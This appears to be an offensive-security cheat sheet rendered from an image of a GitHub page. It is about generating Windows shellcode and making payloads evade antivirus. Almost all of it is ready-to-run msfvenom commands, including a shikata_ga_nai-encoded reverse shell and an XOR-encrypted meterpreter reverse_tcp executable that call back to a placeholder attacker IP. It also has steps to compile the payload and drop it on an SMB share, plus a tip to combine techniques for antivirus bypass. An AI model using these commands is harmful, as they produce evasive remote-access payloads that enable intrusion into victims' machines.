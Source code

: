 ### Tools: Command and Control Frameworks, msfvenom, powercat

# GENERATE SHELLCODE USING PUBLIC TOOLS

### example:

#### 1) msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c

#### 2) Write a C program

#### 3) i686-w64-mingw32-gcc calc.c -o calc-MSF.exe

#### 4) smbclient -U USER '//IP/Tools'

#### put calc-MSF.exe

### Another example

#### 1) msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin

#### 2) xxd -i /tmp/example.bin

## ENCODING WITH MSFVENOM

#### 1) msfvenom --list encoders | grep excellent

#### 2) msfvenom -a x86 --platform windows LHOST=ATTACK_IP LPORT=PORT -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i NUM -f EXTENSION

## ENCRYPTING WITH MSFVENOM

#### 1) msfvenom --list encrypt

#### 2) msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=PORT -f exe --encrypt xor --encrypt-key "KEY" -o xoredrevshell.exe

# TIP: THESE METHODS WON'T WORK OUT OF THE BOX! DO SOME WOMBO COMBOS WITH OTHER TECHNIQUES OR REVERSE ENGINEER THE PAYLOAD FOR A SUCCESSFUL ANTIVIRUS BYPASS!!!

## Summary:

### 1) Encoding

### 2) Encryption

### 3) Packers

### 4) Binders
